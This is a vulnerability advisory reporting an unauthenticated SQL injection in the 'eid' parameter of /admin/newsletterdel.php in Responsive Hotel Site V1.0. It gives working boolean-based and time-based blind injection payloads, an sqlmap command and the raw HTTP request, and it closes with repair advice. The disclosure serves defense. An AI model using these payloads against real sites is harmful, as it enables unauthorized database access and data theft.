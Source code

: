 # Responsive Hotel Site V1.0 /admin/newsletterdel.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Responsive Hotel Site

## Vendor Homepage

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- AmengSec

## VERSION(S)

- V1.0

## Software Link

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/admin/newsletterdel.php' file of the 'Responsive Hotel Site' project. The reason for this issue is that attackers inject malicious code from the parameter "eid" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Responsive Hotel Site", discovered a critical SQL injection vulnerability in the "/admin/newsletterdel.php" file. This vulnerability stems from insufficient user input validation of the 'eid' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind

## Vulnerability location:

- 'eid' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://10.151.169.235:8833/admin/newsletterdel.php?eid=1' AND 9964=(SELECT (CASE WHEN (9964=9964) THEN 9964 ELSE (SELECT 2413 UNION SELECT 6336) END))-- dEPu
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: http://10.151.169.235:8833/admin/newsletterdel.php?eid=1' AND 1295=BENCHMARK(5000000,MD5(0x6c487858))-- dBdz
    Vector: AND [RANDNUM]=IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])
```

![image-20251011191306828](assets/image-20251011191306828.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /admin/newsletterdel.php?eid=1* HTTP/1.1
Host: 10.151.169.235:8833
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cuq6v5v2e97ubeodt33s8k4ot9
Connection: keep-alive
```

# Attack results

![image-20251011191340963](assets/image-20251011191340963.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.